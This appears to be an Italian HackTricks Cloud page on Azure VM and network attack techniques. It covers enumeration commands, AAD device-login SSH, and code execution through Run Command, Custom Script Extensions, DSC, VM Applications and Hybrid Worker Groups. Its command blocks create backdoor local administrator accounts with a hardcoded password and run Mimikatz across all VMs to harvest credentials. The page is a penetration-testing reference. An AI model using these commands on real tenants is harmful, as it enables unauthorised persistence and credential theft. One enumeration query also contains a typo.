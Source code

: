 # Az - Macchine Virtuali e Rete

{% hint style="success" %}
Impara e pratica il Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Informazioni di base

[Dal documento:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Le macchine virtuali Azure sono uno dei diversi tipi di [risorse di calcolo scalabili on-demand](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) che Azure offre. Tipicamente, scegli una macchina virtuale quando hai bisogno di maggiore controllo sull'ambiente di calcolo rispetto ad altre opzioni. Questo articolo ti fornisce informazioni su cosa considerare prima di creare una macchina virtuale, come crearla e come gestirla.

## Informazioni sulla rete Azure

Le reti Azure contengono **diverse entità e modi per configurarla.** Puoi trovare una breve **descrizione,** **esempi** e comandi di **enumerazione** delle diverse entità di rete Azure in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** offre una soluzione sicura, completamente gestita per l'accesso RDP (Remote Desktop Protocol) e SSH (Secure Shell) tramite SSL attraverso il portale Azure. È integrato all'interno di una Rete Virtuale Azure, consentendo la connettività RDP e SSH alle VM utilizzando IP privati, evitando la necessità di IP pubblici. Questo lo rende un'alternativa più sicura e conveniente ai metodi tradizionali che coinvolgono assegnazioni di IP pubblici e configurazioni di regole NSG per l'accesso alle VM. Sviluppatori e personale IT possono accedere in modo sicuro alle VM dal portale Azure utilizzando i loro browser web, semplificando il processo per ambienti di sviluppo e test.

Per elencare tutti gli Azure Bastion Hosts nel tuo abbonamento, puoi utilizzare il seguente comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumerazione delle VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Esegui comandi in una VM**

### **Accesso AAD in VM**

È possibile consentire l'accesso agli utenti autenticati tramite AzureAD. Ad esempio, tentando di accedere a una **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (è importante **utilizzare l'email** con l'azurecorp utilizzato durante il tentativo di accesso) potresti ricevere un errore come: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Basta **seguire queste istruzioni** andando su [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando il codice, utilizzare l'email e la password come credenziali e sarai in grado di connetterti tramite SSH (se quell'utente ha abbastanza permessi per farlo: ruolo `Virtual Machine Administrator Login` o `Virtual Machine User Login`).

### **Esegui Comando**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Esegui Estensione Script Personalizzato**

Le estensioni delle macchine virtuali (VM) di Azure sono **piccole applicazioni** che forniscono configurazione post-deployment e **compiti** di automazione su **VM di Azure**. Ad esempio, se una macchina virtuale richiede l'installazione di software, protezione antivirus o la possibilità di eseguire uno script al suo interno, puoi utilizzare un'estensione VM.

Pertanto, se hai accesso per scriverlo, puoi eseguire codice arbitrario:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) è uno strumento PowerShell simile ad Ansible, utilizzato per configurare un host tramite codice. DSC si integra con Azure, consentendo il caricamento di file di configurazione specifici. Questi file devono aderire a una sintassi rigorosa. In particolare, l'estensione DSC in Azure può eseguire comandi da file che soddisfano determinati criteri di formattazione, anche se la sintassi non è corretta secondo gli standard DSC, come mostrato nella figura fornita.

L'esecuzione di questi comandi è facilitata dalla funzione [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) in Az PowerShell. I requisiti includono un file **.PS1** con una funzione definita e il file deve essere compresso in un file **.zip**. Anche se la sintassi potrebbe non essere accurata per DSC, il codice verrà comunque eseguito. Tuttavia, l'estensione segnerà lo stato di esecuzione come "errore" e nessun output del comando sarà visibile a causa dello stato sovrascritto dal messaggio di errore.

### VM Application Definitions

Le definizioni delle applicazioni VM consentono il deployment ripetibile di applicazioni versionate su una VM Azure. Questa risorsa supporta il deployment e l'aggiornamento delle applicazioni su più VM. Per configurarlo, sono necessari diversi passaggi, che coinvolgono comandi come **`New-AzGalleryApplication`** e **`New-AzGalleryApplicationVersion`** in Az PowerShell.

L'esecuzione di applicazioni o comandi tramite questo metodo coinvolge l'**"VMAppExtension"**, che viene installata automaticamente quando un'applicazione viene applicata a una VM. L'estensione recupera il file dall'URI specificato e lo nomina esattamente come l'applicazione, senza un'estensione. Per eseguire correttamente il file, il campo "ManageActions" nella chiamata API REST deve essere configurato per rinominare il file con l'estensione appropriata. La configurazione di questo metodo, una volta completata, assomiglierà alla struttura mostrata nella figura fornita.

Tuttavia, questo metodo di esecuzione è relativamente lento, impiegando circa 3-4 minuti per eseguire un'applicazione o un comando. I file relativi a questo processo sono memorizzati in directory specifiche (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` per la copia dell'applicazione e `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` per lo stato di esecuzione).

Entrambe le tecniche forniscono modi unici per eseguire comandi e distribuire applicazioni negli ambienti Azure, ognuna con il proprio insieme di requisiti, passaggi e considerazioni.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sono una funzionalità in Azure che consente l'esecuzione di Runbook, configurati in un'Automation Account, su una Macchina Virtuale (VM) Azure che fa parte del HWG designato. Questa esecuzione è facilitata tramite un'estensione installata sulla VM, che distribuisce il codice del Runbook sulla VM. Un aspetto significativo di questo processo è che le credenziali effettive non sono un fattore nell'esecuzione poiché il codice viene eseguito con privilegi elevati, specificamente come **SYSTEM** o root, come illustrato nella figura fornita.

Un dettaglio cruciale per coloro che utilizzano VM Windows 10 è la necessità di specificare la versione di PowerShell per il Runbook. Dovrebbe essere impostato per essere eseguito come PowerShell Version 5.1 invece di 7.1. Questo requisito deriva dal fatto che PowerShell 7.1 non è installato per impostazione predefinita su queste VM, portando a un errore nell'esecuzione dello script se viene specificata la versione 7.1.

Questa funzionalità di Azure offre un metodo robusto per automatizzare e gestire attività in ambienti ibridi, consentendo una gestione centralizzata e l'esecuzione di attività su VM Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

